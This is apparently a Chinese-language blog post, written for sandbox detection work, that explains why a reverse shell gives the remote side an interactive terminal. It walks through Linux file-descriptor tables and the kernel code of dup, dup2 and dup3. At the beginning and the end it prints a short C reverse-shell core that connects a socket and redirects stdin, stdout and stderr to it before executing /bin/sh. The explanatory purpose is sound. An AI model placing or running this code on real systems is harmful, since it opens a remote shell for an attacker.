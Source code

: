 ### 前言
前段时间一直在研究怎么在沙箱环境中检测反弹Shell行为，在这个过程中遇到一些疑问

### 反弹Shell常见特征
```c
    s = socket(AF_INET, SOCK_STREAM, 0);
    connect(s, (struct sockaddr *)&sa, sizeof(sa));
    dup2(s, 0);
    dup2(s, 1);
    dup2(s, 2);

    execve("/bin/sh", 0, 0);
```
这里最神奇的是执行完后，`connect`的远程服务器可以和本机`bash`交互，有一个输入输出终端。


### 内核实现

#### 文件描述符
要想理解I/O重定向，需要理解文件描述符概念，参考上一篇文章[Linux文件系统基础](Linux文件系统基础.md)
![](images/file_obj_relas.png)

简单总结下，Linux每个进程维护了一个open文件的文件描述符表`current->files->fdt->fd`
```c
struct task_struct{
    ...
	/* Open file information: */
	struct files_struct		*files;
    ...
}


struct files_struct {
  /*
   * read mostly part
   */
	atomic_t count;
	bool resize_in_progress;
	wait_queue_head_t resize_wait;

	struct fdtable __rcu *fdt;
	struct fdtable fdtab;
  /*
   * written part on a separate cache line in SMP
   */
	spinlock_t file_lock ____cacheline_aligned_in_smp;
	unsigned int next_fd;
	unsigned long close_on_exec_init[1];
	unsigned long open_fds_init[1];
	unsigned long full_fds_bits_init[1];
	struct file __rcu * fd_array[NR_OPEN_DEFAULT];
};

```
`current->files->fdt->fd`实质指向`current->files->fd_array`
这个数组保留了进程open的每一个文件的实例`struct file`，所有的文件操作都由该结构完成。

#### dup
重定向主要由几个`dup`系列系统掉调用完成
```c
asmlinkage long sys_dup(unsigned int fildes);
asmlinkage long sys_dup2(unsigned int oldfd, unsigned int newfd);
asmlinkage long sys_dup3(unsigned int oldfd, unsigned int newfd, int flags);
```
man上对它们的解释：
* dup: 创建一份oldfd的拷贝，返回一个新的newfd（最小没有使用的文件描述符），指向同一个文件
* dup2: 作用是和`dup`相同的，不过newfd是自己指定的；换言之，newfd也指向oldfd同一个文件
* dup3: 作用和`dup2`相同
  *  可以指定`close-on-exec`flag（O_CLOEXEC）
  *  如果oldfd和newfd相同，dup3调用失败

sys_dup的内核实现
```c
SYSCALL_DEFINE1(dup, unsigned int, fildes)
{
	int ret = -EBADF;
	struct file *file = fget_raw(fildes);

	if (file) {
		ret = get_unused_fd_flags(0);
		if (ret >= 0)
			fd_install(ret, file);
		else
			fput(file);
	}
	return ret;
}
```
`sys_dup`主要是根据文件描述符fd通过`fget_raw`获得对应的`struct file`结构；然后获得一个当前未使用的最小fd，再通过`fd_install`将新fd和原`struct file`结构关联：
```c
	struct files_struct *files = current->files;
	struct fdtable *fdt;
    ...
	fdt = rcu_dereference_sched(files->fdt);
	...
	rcu_assign_pointer(fdt->fd[fd], file);
```
实际就是在当前进程的fdtable新加一项: newfd->file结构，即新分配的fd也同样指向原file.

sys_dup2的内核实现
```c
SYSCALL_DEFINE2(dup2, unsigned int, oldfd, unsigned int, newfd)
{
	if (unlikely(newfd == oldfd)) { /* corner case */
		struct files_struct *files = current->files;
		int retval = oldfd;

		rcu_read_lock();
		if (!files_lookup_fd_rcu(files, oldfd))
			retval = -EBADF;
		rcu_read_unlock();
		return retval;
	}
	return ksys_dup3(oldfd, newfd, 0);
}
```
处理一种与`dup3`不同的特殊情况即`oldfd`和`newfd`，只是校验下oldfd是否有效，直接返回。
最终由`ksys_dup3`处理, flags默认0
```c
static int ksys_dup3(unsigned int oldfd, unsigned int newfd, int flags)
{
	int err = -EBADF;
	struct file *file;
	struct files_struct *files = current->files;

	if ((flags & ~O_CLOEXEC) != 0)
		return -EINVAL;

	if (unlikely(oldfd == newfd))
		return -EINVAL;

	if (newfd >= rlimit(RLIMIT_NOFILE))
		return -EBADF;

	spin_lock(&files->file_lock);
	err = expand_files(files, newfd);
	file = files_lookup_fd_locked(files, oldfd);
	if (unlikely(!file))
		goto Ebadf;
	if (unlikely(err < 0)) {
		if (err == -EMFILE)
			goto Ebadf;
		goto out_unlock;
	}
	return do_dup2(files, file, newfd, flags);

Ebadf:
	err = -EBADF;
out_unlock:
	spin_unlock(&files->file_lock);
	return err;
}
```
先做了一些校验：
* flags可以唯一指定O_CLOEXEC（针对dup3）
* newfd和oldfd不能相同（针对dup3来的）
* newfd的上限值

如果`newfd`大于当前进程`fdt->max_fd`将扩展`fdt`（重新按需分配一个fdt）
通过`files_lookup_fd_locked`获得oldfd的`struct file`结构
最后由`do_dup2`处理
```c
static int do_dup2(struct files_struct *files,
	struct file *file, unsigned fd, unsigned flags)
__releases(&files->file_lock)
{
	struct file *tofree;
	struct fdtable *fdt;
    ...
	fdt = files_fdtable(files);
	tofree = fdt->fd[fd];
	if (!tofree && fd_is_open(fd, fdt))
		goto Ebusy;
	get_file(file);
	rcu_assign_pointer(fdt->fd[fd], file);
	__set_open_fd(fd, fdt);
	if (flags & O_CLOEXEC)
		__set_close_on_exec(fd, fdt);
	else
		__clear_close_on_exec(fd, fdt);
	spin_unlock(&files->file_lock);

	if (tofree)
		filp_close(tofree, files);

	return fd;

Ebusy:
	spin_unlock(&files->file_lock);
	return -EBUSY;
}
```
主要工作和`sys_dup`是相同的，就是修改`fdt->fd[newfd]`指向oldfd的`struct file`结构；
但是由于`newfd`是指定的已经存在的`fd`，所以有一定的概率此时`newfd`文件描述符的操作还没有完成，如果直接修改，导致仍然对原`newfd`文件的操作发生非预期的情况，所以多了一步`fd_is_open`的校验。

sys_dup3实际上和sys_dup2差别不大，最终也是由ksys_dup3->do_dup2完成。


### 结束语
现在再回过头看开篇的那一个常见的反弹shell代码
```c
    s = socket(AF_INET, SOCK_STREAM, 0);
    connect(s, (struct sockaddr *)&sa, sizeof(sa));
    dup2(s, 0);
    dup2(s, 1);
    dup2(s, 2);

    execve("/bin/sh", 0, 0);
```
实际上就是将该进程的stdin/stdout/stderr文件描述符都指向了socket文件描述符，
所以对于该进程，从`stdin`读，实际变成了读`socket`内容；
向`stdout/stderr`写（输出），实际上是向`socket`写；
这就是为什么能够产生一个交互式的`bash`的原因了。

### 参考
[man-dup2](https://man7.org/linux/man-pages/man2/dup.2.html)
